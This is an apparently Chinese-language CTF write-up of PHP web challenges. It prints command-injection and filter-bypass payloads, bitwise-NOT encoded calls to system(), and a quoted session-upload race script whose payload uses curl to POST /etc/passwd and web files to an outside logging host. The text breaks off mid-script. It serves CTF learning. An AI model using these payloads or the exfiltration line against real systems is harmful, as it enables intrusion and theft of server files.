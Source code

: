无参rce读取

> readfile(next(array_reverse(scandir(getcwd()))));

## 反弹shell构造 

执行ls没有效果，nc弹shell即可

## 管道符绕过过滤 

直接执行，可以看见flag.php，这里管道符直接执行

> |cat flag.php 

## 无字母数字代码执行 

打取反绕过

> (~%8F%97%8F%96%91%99%90)();

bp传过去发现成功执行，

```php
<?php
var_dump(urlencode(~'system'));
var_dump(urlencode(~'cat flag.php'));
?>
```

> (~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%99%93%9E%98%D1%8F%97%8F);

## 无字母数字命令执行 

一个很奇怪的题，本来想着利用工具去试试，发现无回显  

这里尝试弹shell，传上去的文件是空的，不知道为什么。

这里使用了linux下`. file`执行文件内容的特性

由于不确定seesion文件路径，写个脚本去爆，这里直接拿别人的用了

```python
import requests
import threading
import time
import signal
import sys

# 靶机链接
url = 'http://a9dbdc84-611d-455a-9f9e-c7b8dc599cdf.challenge.ctf.show/'
shell_url = url + "44.txt"
sessionid = 'cnmusa'

data = {
    'PHP_SESSION_UPLOAD_PROGRESS': 'ls > 44.txt;curl -X POST http://219tzymz.eyes.sh -d "1=`cat /etc/passwd;cat /var/www/html/*;cat /f*`"',
}

file = {
    'file': sessionid
}

cookies = {
    'PHPSESSID': sessionid
}

# 常见 session 文件路径列表
# session_paths = [
```